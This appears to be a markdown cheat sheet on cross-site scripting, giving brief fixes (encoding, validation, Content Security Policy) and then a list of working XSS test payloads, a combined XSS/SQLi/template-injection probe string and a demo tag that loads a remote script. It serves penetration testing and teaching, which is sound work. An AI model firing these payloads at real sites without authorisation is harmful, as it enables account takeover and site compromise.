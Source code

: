 # XSS
* XSS can do anything a logged in user can do.

* You fix XSS by fixing the output or input:
	* Output - Encode data to make it safe:
	* Input - Validation, Whitelists
* Secondarily, you protect with a Content Security Policy (CSP), which is an HTTP Header

## Testing
```html

Here's a small #XSS list for manual testing (main cases, high success rate).

"><img src onerror=alert(1)>
"autofocus onfocus=alert(1)//
</script><script>alert(1)</script>
'-alert(1)-'
\'-alert(1)//
javascript:alert(1)
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41));</script>

Try it on:
- URL query, fragment & path;
- all input fields.

If you get an XSS, use ${7*7} or ${{7*7}} and see if it is reflected as 49 in the place of XSS to see if SSTI is possible. If session ID is in cookies, also test for session fixation.

------------

A payload without any parenthesis after "prompt":

​```Object.defineProperty(window, 'p', { get: prompt });p;```

By using a Getter, we invoke the prompt without any input. This should display a prompt box in which the payload can be entered. 

------------

JS:          <script>alert('Honk');</script>
SVG:         <svg onload=prompt(/svg/) />
IMG SRC:     <img src="alert('img src')" />
IMG ONERROR: <img src="error" onerror="alert('img error')" />

http://example.com/index.php?user=<script>alert(123)</script>
```



### Quick manual spray of an application input
```html
'"><svg/onload=alert(1)>{{9*74}}
```
This provides indicators of basic SQLi, XSS and SSTI vulnerabilities. Always remember to rest for SSTI (Server-Side Template Injection). Test for it the same way you would for XSS. A few simple payloads like ```{{7*7}}``` and if they get replaced by '49' then you've just found a high/critical vulnerability. You need to get a PoC though!


https://github.com/payloadbox/xss-payload-list



## Demo: Harlem Shake

```html
<script defer src="https://rafaelhart.com/shake.js"></script>
```


